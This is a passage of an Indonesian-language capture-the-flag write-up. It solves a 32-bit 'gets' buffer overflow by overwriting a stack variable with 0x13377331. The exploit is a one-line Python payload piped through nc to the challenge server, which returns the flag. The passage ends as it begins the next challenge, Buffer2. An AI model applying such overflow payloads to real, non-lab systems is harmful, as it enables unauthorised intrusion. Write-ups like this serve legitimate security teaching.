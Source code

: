 ```py
   0x0804859c <+101>:   leave  
   0x0804859d <+102>:   lea    esp,[ecx-0x4]
   0x080485a0 <+105>:   ret    
End of assembler dump.
```

Program ini menggunakan ```gets``` untuk mengambil inputan kita yang diberi ukuran sebesar ```0x8c```.

Tujuan kita disini adalah memanggil fungsi ```system``` yang ada pada alamat ```0x0804857a```. Untuk mencapai ```system```, ada hal yang perlu dipenuhi dahulu.

```py
0x08048569 <+50>: cmp    DWORD PTR [ebp-0xc],0x13377331
0x08048570 <+57>: jne    0x8048584 <main+77>
```

Berikut penjelasan potongan disassembly diatas.
- ```cmp``` diatas berarti apakah value pada ```ebp-0xc``` adalah ```0x13377331```. Jika tidak, paka program akan loncat ke alamat ```0x8048584```.
> The CMP instruction compares two operands. It is generally used in conditional execution. This instruction basically subtracts one operand from the other for comparing whether the operands are equal or not. It does not disturb the destination or source operands. It is used along with the conditional jump instruction for decision making.
- Singkatnya, ```cmp``` mempunyai syntax sebagai berikut.
```r
    CMP [destination], [source]
```

### Exploit
Inputan kita berada pada ```ebp-0x8c```. Untuk sampai di ```ebc-0xc``` kita membutuhkan,
- Padding berukuran ```0x8c - 0xc = 0x80 (128 dalam desimal)```
- Ditambah dengan ```0x13377331``` dalam [little endian](https://en.wikipedia.org/wiki/Endianness).

```sh
$ python -c 'print "A"*128 + "\x31\x73\x37\x13"' | nc asgama.web.id 40203
GamaCTF{BufF3rR__0vErf10W__EZ}
```
### Flag
`GamaCTF{BufF3rR__0vErf10W__EZ}`  
 

## Buffer2 [75 pts]

Diberikan File [buf2](https://github.com/abdullahnz/Writeup/blob/master/AsgamaCTF/buf2) ELF 32-bit not stripped dan service ```nc asgama.web.id 40202```

```bash
$ file buf2 
buf2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=422a2c2391911b03f182ed6a8a2b65ca200f276c, not stripped
```
Dan berikut hasil disassembly fungsi ```main``` yang ada pada program yang diberikan.
 